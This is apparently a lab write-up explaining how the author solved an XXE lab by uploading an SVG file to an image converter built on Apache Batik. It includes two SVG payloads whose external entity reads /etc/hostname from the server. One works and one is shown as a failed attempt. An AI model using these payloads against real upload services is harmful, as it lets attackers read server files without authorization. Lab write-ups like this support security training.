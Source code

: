 # Solution

NOTE: For some reason, i cant upload the image file with correct product id. So, i just exploited the XXE manually.

1. From lab description we can mention `Apache Batik library` that was used to process the uploaded image file. Shortly, Apache Batik converts SVG files to PNG files.
2. I googled for XXE attack to Apache Batik. https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/
3. I created a simple SVG file with XXE payload and uploaded it to the server.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-family="Verdana" font-size="32" x="20" y="80">&xxe;</text></svg>
```

Also i had failure attempts to upload the svg. But nothing happened was outputed. So, we need to enclose payload in text tag like above. Below is a example of failed attempt.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
&xxe;
</svg>
```